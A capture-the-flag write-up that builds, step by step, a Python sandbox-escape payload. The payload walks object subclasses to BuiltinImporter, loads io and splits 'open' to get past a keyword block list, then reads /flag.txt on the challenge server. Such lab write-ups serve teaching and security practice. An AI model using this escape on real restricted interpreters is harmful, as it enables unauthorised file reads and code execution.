

# Snake game
## Description



## Solution

In this challenge, a very limited Python interpreter is provided. It does not allow module import, printing, or opening files. Some keywords, such as `open`, `print`, etc., are blacklisted. Examples of this behavior are shown below.

```
$ nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : import io
This is not allowed: import
```

```
$ nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : print("as")
I'm confused - name 'print' is not defined
```

```
$ nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : open("/flag.txt")
This is not allowed: open
```

To escape this python sandbox and exfiltrate the flag, a payload can be built incrementally.

```python
# tuple
()

# tuple class
().__class__

# parent classes
().__class__.__bases__

# 'object' class
().__class__.__bases__[0]

# subclasses of 'object'
().__class__.__bases__[0].__subclasses__()

# _frozen_importlib.BuiltinImporter
().__class__.__bases__[0].__subclasses__()[107]

# instantiate Importer
().__class__.__bases__[0].__subclasses__()[107]()

# load (import) 'io' module
().__class__.__bases__[0].__subclasses__()[107]().load_module("io")

# 'io' module dictionary
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__

# 'open' function (split in two parts due to the blacklisting)
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]

# open the flag file
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]("/flag.txt")

# read the flag
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]("/flag.txt").read()
```

Final payload is:

```python
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]("/flag.txt").read()
```

When run against the server, the flag is revealed.

```
$ nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : ().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]("/flag.txt").read()
FLAG{lY4D-GJaQ-VUks-PNQd}
```

## Flag

`FLAG{lY4D-GJaQ-VUks-PNQd}`